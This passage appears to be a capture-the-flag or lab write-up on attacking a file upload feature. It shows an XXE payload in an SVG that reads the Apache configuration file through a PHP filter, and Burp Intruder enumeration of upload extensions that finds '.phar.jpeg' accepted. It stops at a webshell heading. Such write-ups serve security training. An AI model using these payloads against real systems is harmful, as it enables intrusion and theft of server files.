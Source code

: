 >The above PHP source code reveal the renamed path and file name as example will be: `http://94.237.59.206:37111/contact/user_feedback_submissions/230723_test.png`  

>The content of apache2.conf provide log file names but nothing else. 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/apache2/apache2.conf"> ]>
<svg>&xxe;</svg>
```  

### Extension Enumeration  

>Run Burp Intruder to determine valid file extensions.  
>[PHP Extension Wordlist](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)  

![upload-skills-assess-extension](/images/upload-skills-assess-extension.png)  

>Payload position on the extension of the filename and the type of attack Sniper.  
>Identified a valid extension as `.phar.jpeg`  

### Webshell  
